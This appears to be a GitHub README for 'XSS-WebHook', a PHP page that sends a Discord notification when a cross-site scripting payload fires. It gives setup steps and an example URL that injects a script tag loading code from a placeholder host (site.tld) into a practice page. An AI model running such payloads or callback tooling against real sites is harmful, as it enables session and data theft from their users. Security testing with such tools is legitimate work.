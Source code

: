 <h3 align="center"> Send XSS Report Via Discord WebHook  </h4>
<p align="center">
  <a href="#installation">Installation</a> •
  <a href="#usage">Usage</a> •
  <a href="#preview">Preview</a> 

</p>

---

This Code Send Notification on Discord TextChannel When Xss payload it's Worked .

## Installation
 Clone Repository :
```
git clone github.com/zi-gax/XSS-WebHook
```
Add Files To Web Page Directory And Run This Code For Wirte File Permission :


```
chown www-data:www-data reports/
```

Edit WebHook url In index.php :
```
line 9 $webhookUrl 
```

## Preview



## Usage

### For Example 
use link web page in payload :
```
https://brutelogic.com.br/gym.php?p01=test2%3C/title%3E%3Cscript%20src=//site.tld%20%3E%3C/script%3E
```